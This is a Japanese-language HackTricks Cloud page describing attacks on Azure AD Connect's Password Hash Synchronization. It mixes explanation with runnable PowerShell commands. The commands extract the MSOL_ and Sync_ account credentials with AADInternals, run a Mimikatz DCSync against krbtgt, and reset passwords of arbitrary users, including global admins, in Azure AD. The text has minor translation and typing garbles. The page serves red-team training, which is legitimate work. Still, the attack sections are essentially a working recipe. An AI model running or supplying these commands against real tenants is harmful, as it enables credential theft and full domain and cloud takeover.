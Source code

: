 # Az - PHS - パスワードハッシュ同期

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をご覧ください！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告掲載したい場合**や**HackTricksをPDFでダウンロードしたい場合**は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをご覧ください
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローしてください。**
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有してください。**

</details>

## 基本情報

**パスワードハッシュ同期**は、ハイブリッドアイデンティティを実現するために使用されるサインイン方法の一つです。**Azure AD Connect**は、オンプレミスのActive DirectoryインスタンスからクラウドベースのAzure ADインスタンスに、ユーザーのパスワードのハッシュのハッシュを同期します。

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

これは、オンプレミスのADとAzure ADを同期するために企業が使用する**最も一般的な方法**です。

**ユーザー**と**パスワードハッシュのハッシュ**は、オンプレミスからAzure ADに同期されます。しかし、**クリアテキストのパスワード**や**オリジナルのハッシュ**はAzure ADに送信されません。\
さらに、**組み込み**のセキュリティグループ（ドメイン管理者など）はAzure ADに**同期されません**。

**ハッシュの同期**は**2分ごと**に行われます。ただし、デフォルトでは、**パスワードの有効期限**と**アカウントの有効期限**はAzure ADで**同期されません**。そのため、**オンプレミスのパスワードが期限切れ**（変更されていない）のユーザーでも、古いパスワードを使用してAzureリソースに**アクセスし続ける**ことができます。

オンプレミスのユーザーがAzureリソースにアクセスしたい場合、**認証はAzure ADで行われます**。

**PHS**は、**Identity Protection**やAADドメインサービスなどの機能に必要です。

## ピボット

PHSが設定されると、いくつかの**特権アカウント**が自動的に**作成されます**：

* オンプレミスのADに自動的に作成されるアカウント**`MSOL_<installationID>`**。このアカウントには**ディレクトリ同期アカウント**の役割が与えられます（[ドキュメント](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)を参照）。これは、オンプレミスのADで**レプリケーション（DCSync）の権限**を持っていることを意味します。
* Azure ADには、**`Sync_<on-prem ADConnectサーバー名>_installationID`**というアカウントが作成されます。このアカウントは、Azure AD内の**任意のユーザー**（同期されたものもクラウド専用のものも）の**パスワードをリセット**することができます。

これら2つの特権アカウントのパスワードは、**Azure AD Connectがインストールされているサーバー**上のSQLサーバーに**保存されています**。管理者は、これらの特権ユーザーのパスワードをクリアテキストで抽出することができます。\
データベースは`C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`にあります。

テーブルの一つから設定を抽出することが可能で、そのうちの一つは暗号化されています：

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

**暗号化された設定**は**DPAPI**で暗号化されており、オンプレミスADの**`MSOL_*`**ユーザーのパスワードとAzureADの**Sync\_\***のパスワードが含まれています。したがって、これらを侵害することで、ADとAzureADにプライベートエスカレーションすることが可能です。

これらの資格情報がどのように保存され、復号されるかの完全な概要は、[このトーク](https://www.youtube.com/watch?v=JEIR5oGCwdg)で見ることができます。

### **Azure AD connectサーバー**を見つける

**Azure AD connectがインストールされているサーバー**がドメインに参加している場合（ドキュメントで推奨されています）、それを見つけることができます：
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### MSOL\_\*の悪用
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
これらの資格情報を取得するために、[**adconnectdump**](https://github.com/dirkjanm/adconnectdump) も使用できます。
{% endhint %}

### Sync\_\* の悪用

**`Sync_*`** アカウントを侵害することで、任意のユーザー（グローバル管理者を含む）の**パスワードをリセット**することが可能です。
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
It's also possible to **クラウドユーザーのパスワードのみを変更する** (それが予期せぬことであっても)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
このユーザーのパスワードをダンプすることも可能です

### シームレス SSO

PHSと一緒にシームレス SSOを使用することが可能で、これは他の悪用にも弱いです。以下で確認してください：

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## 参照

* [https://learn.microsoft.com/ja-jp/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をチェックしてください！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手してください。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見してください。私たちの独占的な[**NFTコレクション**](https://opensea.io/collection/the-peass-family)です。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加するか**、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローしてください。**
* **ハッキングのトリックを共有するために、** [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のgithubリポジトリにPRを提出してください。

</details>
